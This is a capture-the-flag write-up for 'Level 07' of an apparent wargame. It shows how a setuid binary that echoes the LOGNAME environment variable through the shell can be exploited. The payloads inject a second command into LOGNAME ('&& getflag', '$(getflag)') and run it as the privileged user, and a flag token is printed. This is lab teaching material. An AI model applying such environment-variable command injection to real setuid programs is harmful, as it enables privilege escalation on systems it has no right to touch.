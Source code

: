 # LEVEL 07
In our home directory, we see an executable with suid/guid:
        >$ ls -la
        -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

Using strings command to return the string characters into the binary file:
        >$ strings level07
        [...]
        LOGNAME
        /bin/echo %s
        /or/
        Using retdec.com on the file we see this two lines:
        char * env_val = getenv("LOGNAME"); // 0x8048576
        asprintf(&buffer, "/bin/echo %s ", env_val);

We retrieve the env variable 'LOGNAME' (which is an env variable that contains the user that executes the current shell process), with asprintf on the string "/bin/echo %s" to replace "%s" with the result of 'LOGNAME'.
Let's check its value and what happens if we change it:
        >$ echo $LOGNAME
        level07
        >$ export LOGNAME="hello"
        >$ ./level07
        hello

This is a vulnerability, since the file as suid bit and therefore will run any command as user flag07:
        >$ export LOGNAME="&& whoami" /or/ LOGNAME=$\(whoami\)
        >$ ./level07
        flag07
So injecting getflag should yield the desired result:
        >$ export LOGNAME="&& getflag" /or/ LOGNAME=$\(getflag\)
        >$ ./level07
        Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

Vulnerability:
System call by privileged user to echo env variable -> Privilege escalation via env variable.

Documentations:
* https://unix.stackexchange.com/questions/268378/difference-between-logname-and-logname
* http://codereview.stackexchange.com/questions/6435/c-system-function-vulnerability